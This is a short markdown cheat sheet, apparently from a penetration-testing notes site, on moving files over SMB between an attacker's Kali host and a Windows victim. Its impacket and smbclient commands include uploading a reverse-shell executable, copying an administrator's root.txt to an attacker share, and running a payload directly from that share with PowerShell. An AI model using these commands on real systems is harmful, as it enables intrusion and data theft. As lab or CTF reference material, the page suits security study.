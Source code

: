 ```yaml
---
layout: default
title: SMB Transfer
permalink: /smb_transfer/
---
```


# File Transfer Over SMB

### Bi-directional

```
impacket-smbclient "$user:$pass@$ip"
use Shared
put rev_shell.exe
get secret.txt
```

```
smbclient -L 192.168.31.141
smbclient "\\\\192.168.31.141\share"
ls
get ignite.txt
put data.txt
```

#### Sender
`impacket-smbserver share .` <br>
`impacket-smbserver share $(pwd) -smb2support -username smbuser -password smbpass` <br>
Sometimes it is not allowed to connect to shares without authentication.

#### Receiver

```
net use \\10.10.10.45\share /user:smbuser
smbpass
```

`copy ignite.txt \\192.168.31.141\share\ignite.txt`

to instantly execute it: `powershell -c (\\<kali_IP\<server_name>\<payload)`

or just copy: `copy \\192.168.31.141\share\ignite.txt`

`copy C:\Users\Administrator\Desktop\root.txt \\10.10.10.79\share\`

Kali -> Victim

| Kali    | Windows Victim PowerShell |
| -------- | ------- |
| impacket-smbserver <server_name> .  | to instantly execute it: powershell -c (\\<kali_IP\<server_name>\<payload) |

impacket-smbserver <server_name> .
